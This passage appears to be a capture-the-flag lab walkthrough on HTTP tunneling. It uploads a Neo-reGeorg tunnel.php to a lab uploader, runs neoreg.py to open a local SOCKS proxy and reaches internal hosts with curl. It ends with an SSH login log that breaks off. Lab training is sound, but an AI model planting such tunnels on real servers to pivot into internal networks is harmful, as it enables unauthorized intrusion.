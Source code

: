 
The previous command generates encrypted Tunneling clients with thm key in the neoreg_servers/ directory. Note that there are various extensions available, including PHP, ASPX, JSP, etc. In our scenario, we will be uploading the tunnel.php file via the uploader machine. To access the uploader machine, you can visit the following URL: http://10.10.20.177/uploader or https://10-10-20-177.p.thmlabs.com/uploader without the need for a VPN.

To upload the PHP file, use admin as the key to let you upload any files into the uploader.thm.com. Once we have uploaded the file, we can access it on the following URL: http://10.10.20.177/uploader/files/tunnel.php.

```
Creating an HTTP Tunnel

           
			
root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py -k thm -u http://10.10.20.177/uploader/files/tunnel.php
```

We need to use the neoreg.py to connect to the client and provide the key to decrypt the tunneling client. We also need to provide a URL to the PHP file that we uploaded on the uploader machine.

Once it is connected to the tunneling client, we are ready to use the tunnel connection as a proxy binds on our local machine, 127.0.0.1, on port 1080.

For example, if we want to access the app.thm.com, which has an internal IP address 172.20.0.121 on port 80, we can use the curl command with --socks5 argument. We can also use other proxy applications, such as ProxyChains, FoxyProxy, etc., to communicate with the internal network. 

```
Access the app.thm.com machine via the HTTP Tunneling

           
			
root@AttackBox:~$ curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
Welcome to APP Server!
```

The following diagram shows the traffic flow as it goes through the uploader machine and then communicates with the internal network devices, which in this case, is the App machine. Note that if we check the network traffic from the App machine, we see that the source IP address of incoming traffic comes from the uploader machine.


![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b32d6d9d9c3377acf155044204ec6982.png)

Now replicate the HTTP Tunneling steps to establish tunneling over the HTTP protocol to communicate with flag.thm.com with 172.20.0.120 as an IP address on port 80. Note that if you access the flag.thm.com website from other machines within the network, you won't get the flag.

```
┌──(kali㉿kali)-[~]
└─$ ssh thm@10.10.20.177      
The authenticity of host '10.10.20.177 (10.10.20.177)' can't be established.
ED25519 key fingerprint is SHA256:i08OXA9zrCcuYVHBnFaW6CcVCkiN6zaLcGiNmWo2aek.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.20.177' (ED25519) to the list of known hosts.
thm@10.10.20.177's password: 
Permission denied, please try again.
thm@10.10.20.177's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
```